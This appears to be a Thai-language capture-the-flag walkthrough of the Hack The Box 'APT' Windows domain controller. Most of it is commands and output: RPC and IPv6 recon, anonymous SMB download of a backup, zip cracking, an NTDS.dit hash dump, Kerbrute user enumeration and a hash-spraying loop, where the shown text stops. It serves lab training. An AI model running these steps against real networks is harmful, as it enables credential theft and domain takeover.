


# Recon

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ../Tools/scan.sh 10.10.10.213
[*] Running rustscan...
[*] Running nmap on ports: 80,135
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 02:25 EDT
Nmap scan report for 10.10.10.213
Host is up (0.035s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
|_http-title: Gigantic Hosting | Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
                                                                                                                                                        
```

## TCP 135
TCP พอร์ต **135** บน Windows มีบทบาทสำคัญในการสื่อสารของบริการ **RPC (Remote Procedure Call)** ซึ่งใช้ในระบบปฏิบัติการ Windows สำหรับการทำงานร่วมกันระหว่างโปรเซสหรือเครื่องต่าง ๆ โดยเฉพาะในระบบเครือข่ายองค์กร กล่าวคือ **TCP พอร์ต 135** ใช้สำหรับ **Endpoint Mapper** และ **COM Service Control Manager** บน Windows
#### **Endpoint Mapper**
- เป็นบริการที่ฟังอยู่บนพอร์ต 135
- หน้าที่: บอกตำแหน่ง (พอร์ต) ที่บริการ RPC อื่น ๆ กำลังทำงานอยู่
- เปรียบเสมือน “แผนที่นำทาง” ให้ client ทราบว่าบริการ RPC ที่ต้องการเชื่อมต่อ อยู่ที่พอร์ตไหน
#### **COM Service Control Manager**
- เป็นส่วนหนึ่งของ **Component Object Model (COM)** บน Windows
- ทำหน้าที่จัดการวัตถุ (object) และการเรียกใช้งานระยะไกลผ่าน **DCOM (Distributed COM)**
- ทำให้แอปพลิเคชันสามารถเรียกใช้งาน object ที่อยู่บนเครื่องอื่นผ่านเครือข่าย
#### impacket-rpcmap 
- เครื่องมือชื่อ **rpcmap.py** จาก **Impacket** ใช้เพื่อแสดงการ mapping ของ MSRPC (Microsoft Remote Procedure Call)
- การใช้งาน rpcmap.py ต้องระบุ **stringbinding** เพื่อเชื่อมต่อกับอินเตอร์เฟซ MSRPC
**ตัวอย่าง stringbinding:**
- ncacn_ip_tcp:192.168.0.1[135]
- ncacn_np:192.168.0.1[\pipe\spoolss]
- ncacn_http:192.168.0.1[593]
- ncacn_http:[6001,RpcProxy=exchange.contoso.com:443]
- ncacn_http:localhost[3388,RpcProxy=rds.contoso:443]

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-rpcmap 'ncacn_ip_tcp:10.10.10.213'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Procotol: N/A
Provider: rpcss.dll
UUID: 00000136-0000-0000-C000-000000000046 v0.0

Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 000001A0-0000-0000-C000-000000000046 v0.0

Procotol: N/A
Provider: rpcss.dll
UUID: 0B0A6584-9E0F-11CF-A3CF-00805F68CB1B v1.1

Procotol: N/A
Provider: rpcss.dll
UUID: 1D55B526-C137-46C5-AB79-638F2A68E869 v1.0

Procotol: N/A
Provider: rpcss.dll
UUID: 412F241E-C12A-11CE-ABFF-0020AF6E7A17 v0.2

Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 4D9F4AB8-7D1C-11CF-861E-0020AF6E7C57 v0.0

Procotol: N/A
Provider: rpcss.dll
UUID: 64FE0B7F-9EF5-4553-A7DB-9A1975777554 v1.0

Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A v0.0

Protocol: [MS-RPCE]: Remote Management Interface
Provider: rpcrt4.dll
UUID: AFA8BD80-7D8A-11C9-BEF4-08002B102989 v1.0

Procotol: N/A
Provider: rpcss.dll
UUID: B9E79E60-3D52-11CE-AAA1-00006901293F v0.2

Procotol: N/A
Provider: rpcss.dll
UUID: C6F3EE72-CE7E-11D1-B71E-00C04FC3111A v1.0

Procotol: N/A
Provider: rpcss.dll
UUID: E1AF8308-5D1F-11C9-91A4-08002B14A0FA v3.0

Procotol: N/A
Provider: rpcss.dll
UUID: E60C73E6-88F9-11CF-9AF1-0020AF6E72F4 v2.0
```

**สรุปผลที่ได้:**
- การสแกนนี้พบ **RPC endpoints** หลายรายการ พร้อมกับ **UUIDs**
- บาง UUID ที่พบเป็นของ **MS-DCOM** (ดูรายละเอียดได้จากเอกสารของ Microsoft)
- UUID ที่ยกตัวอย่างคือของ **IObjectExporter** หรือ **IOXIDResolver**
    - เป็นอินเทอร์เฟซ RPC ที่ถูกใช้ในช่องโหว่ตระกูล **Potato exploits**
- บทความอธิบายว่าอินเทอร์เฟซนี้สามารถใช้ดึงรายการ **network interfaces** โดย **ไม่ต้องยืนยันตัวตน (unauthenticated)**

## IOXIDresolver 
จากนั้นเราสามารถใช้**สคริปต์ IOXIDResolver.py เพื่อดึงข้อมูลเครือข่าย (Network Interface)** จากเครื่องเป้าหมายที่ IP 10.10.10.213 ผ่านโปรโตคอล **DCOM/RPC** โดย **ไม่ต้องยืนยันตัวตน (unauthenticated)**
```bash                                                                 
┌──(venv)─(kali㉿kali)-[~/Tools/IOXIDResolver]
└─$ python3 IOXIDResolver.py -t 10.10.10.213
[*] Retrieving network interface of 10.10.10.213
Address: apt
Address: 10.10.10.213
Address: dead:beef::b885:d62a:d679:573f
```

## NMAP IPv6 
```bash
nmap -6 -p- --min-rate 10000 dead:beef::b885:d62a:d679:573f
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 22:49 EDT
Nmap scan report for dead:beef::b885:d62a:d679:573f
Host is up (0.031s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49673/tcp open  unknown
49680/tcp open  unknown
49687/tcp open  unknown
```

## Nmap Specific open port

```bash
nmap -6 -p 53,80,88,135,389,445,464,593,636,3268,3269,5985,9389 -sCV dead:beef::b885:d62a:d679:573f 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 22:51 EDT
Nmap scan report for dead:beef::b885:d62a:d679:573f
Host is up (0.033s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Bad Request
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-26 02:30:29Z)
135/tcp  open  msrpc        Microsoft Windows RPC
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2025-05-26T02:31:21+00:00; -21m06s from scanner time.
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-05-26T02:31:21+00:00; -21m06s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-05-26T02:31:21+00:00; -21m06s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
3269/tcp open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-05-26T02:31:21+00:00; -21m06s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Bad Request
9389/tcp open  mc-nmf       .NET Message Framing
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-26T02:31:11
|_  start_date: 2025-05-25T05:58:56
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2025-05-26T03:31:12+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -29m39s, deviation: 22m39s, median: -21m06s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.98 seconds

```

## SMB checker 
```bash
nxc smb dead:beef::b885:d62a:d679:573f --shares -u '' -p ''
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows 10 / Server 2016 Build 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\: 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Enumerated shares
SMB         dead:beef::b885:d62a:d679:573f 445    APT              Share           Permissions     Remark
SMB         dead:beef::b885:d62a:d679:573f 445    APT              -----		-----------     ------
SMB         dead:beef::b885:d62a:d679:573f 445    APT              backup          READ            
SMB         dead:beef::b885:d62a:d679:573f 445    APT              IPC$                            Remote IPC
SMB         dead:beef::b885:d62a:d679:573f 445    APT              NETLOGON                        Logon server share 
SMB         dead:beef::b885:d62a:d679:573f 445    APT              SYSVOL                          Logon server share 

```
## SmbClient 

ตรวจสอบด้วย smbclient 
```bash
smbclient -L \\\\dead:beef::b885:d62a:d679:573f            
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backup          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
dead:beef::b885:d62a:d679:573f is an IPv6 address -- no workgroup available
```

Connect to target 
```bash
smbclient -N \\\\dead:beef::b885:d62a:d679:573f\backup
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls 
  .                                   D        0  Thu Sep 24 03:30:52 2020
  ..                                  D        0  Thu Sep 24 03:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 03:30:32 2020

                5114623 blocks of size 4096. 2631163 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 10650961 as backup.zip (1070.3 KiloBytes/sec) (average 1070.3 KiloBytes/sec)
smb: \> 
```

เมื่อลอง unzip จะพบว่าติดรหัสผ่าน เราจะต้องทำการ crack ออกมาโดยใช้ zip2john และ crack ด้วย john 

```bash
zip2john backup.zip > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)     
1g 0:00:00:00 DONE (2025-05-25 23:12) 50.00g/s 6553Kp/s 6553Kc/s 6553KC/s 123456..kovacs
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
จะเห็นว่ามีข้อมูล ntds.dit และ system ซึ่งเราสามารถใช้ secretdump ได้ 



```bash
impacket-secretdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > backup_ad_dump

grep ':::' backup_ad_dump | awk -F: '{print $1}' > user.txt
```

## Kerburte user Enum
ตรวจสอบ user ที่สามารถใช้งานได้
```bash
sudo vim /etc/hosts

dead:beef::b885:d62a:d679:573f apt.htb htb.local

```

จากนั้นทดสอบ kerbrute

```bash
kerbrute userenum -d 'htb.local' --dc apt.htb  ./users.txt -v  | grep VALID
```

จะเห็นว่ามีชื่อผู้ใช้อยู่ 3 ชื่อด้วยกัน 



```bash
┌──(kali㉿kali)-[~/Desktop/backup]
└─$ cat backup_ad_dump | grep henry.vinson
henry.vinson:3647:aad3b435b51404eeaad3b435b51404ee:2de80758521541d19cabba480b260e8f:::
henry.vinson:aes256-cts-hmac-sha1-96:4c0ec4cffc953266ed72d9b565da62115655d2f402416af92e4e76d121663e2f
henry.vinson:aes128-cts-hmac-sha1-96:da63c28166768a2829f00d30ec9fbddd
henry.vinson:des-cbc-md5:80a2c83213b3dfd6
```

เนื่องจาก hash ที่ได้มาไม่ถูกต้อง เราจึงจำเป้นต้องทำการเขียน script สำหรับทดสอบหา hash ที่สามารถใช้งานได้ 

```bash
grep ':::' backup_ad_dump | awk -F: '{print $1'} > users
cat backup_ad_dump | grep ::: | cut -d: -f 3-4 > hashes


for x in $(cat hashes);do impacket-getTGT -hashes $x -dc-ip apt.htb.local htb/henry.vinson | grep -v Impacket | grep -v "KDC_ERR_PREAUTH_FAILED" | tee -a  valid_hash && echo $x >> valid_hash;done


```